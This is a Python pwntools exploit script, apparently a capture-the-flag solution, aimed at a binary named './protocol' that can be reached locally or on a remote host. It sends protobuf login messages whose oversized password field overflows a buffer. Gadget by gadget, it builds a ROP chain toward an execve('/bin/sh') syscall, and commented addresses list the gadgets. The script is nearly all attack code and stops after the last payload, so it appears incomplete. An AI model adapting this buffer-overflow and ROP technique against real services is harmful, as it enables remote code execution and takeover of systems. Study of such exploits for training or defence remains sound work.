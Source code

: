 ### exp

```python
from ctf_pb2 import *
from pwn  import *


context(os='linux', arch='amd64',log_level='debug')


def new_pwn(payload):
    global io
    io.recvuntil('Login: ')
    person = pwn()
    person.username = b'admin'
    person.password = payload
    io.send(person.SerializeToString())
    
def clear(num):
    for i in range(1,8):
        payload = b'a'*0x248 + b'b'*num + b'c'*(8-i)
        new_pwn(payload)


def exp(mode,ip = '0.0.0.0',port = 0):
    global io
    if mode == 0:
        io = process('./protocol')
    else:
        io = remote(ip,port)
    
    #0x0000000000403c99 : syscall
    #binsh
    #0x0000000000404982 : pop rdi ; ret
    #0
    #0x0000000000588bbe : pop rsi ; ret
    #59
    #0x00000000005bdb8a : pop rax ; ret
    #0
    #0x000000000040454f : pop rdx ; ret
    
    payload = b'a'*0x248 +b'b'*0x40 + b'\x99\x3c\x40'
    new_pwn(payload)
    
    clear(0x38)
    payload = b'a'*0x248 + b'b'*0x38 + b'\x6f\xa3\x81'
    new_pwn(payload)
    
    clear(0x30)
    payload = b'a'*0x248 + b'b'*0x30 + b'\x82\x49\x40'
    new_pwn(payload)
    
    clear(0x28)
    payload = b'a'*0x248 + b'b'*0x28
    new_pwn(payload)
    
    clear(0x20)
    payload = b'a'*0x248 + b'b'*0x20 + b'\xbe\x8b\x58'
    new_pwn(payload)
    
    clear(0x18)
    payload = b'a'*0x248 + b'b'*0x18 + b'\x3b'
    new_pwn(payload)
```